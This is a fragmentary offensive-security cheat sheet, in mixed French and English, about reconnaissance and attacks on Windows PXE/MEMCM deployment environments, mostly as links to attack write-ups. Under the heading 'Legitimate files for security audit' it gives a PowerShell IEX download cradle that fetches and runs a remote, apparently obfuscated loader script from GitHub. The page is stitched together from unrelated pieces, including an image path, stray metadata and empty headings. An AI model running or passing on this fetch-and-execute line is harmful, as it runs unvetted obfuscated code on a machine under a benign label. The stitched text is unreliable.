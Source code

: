 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# Cyber Cheat Sheet

## Reconaissance & Enumération

## MEMCM - MDT - PXE

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
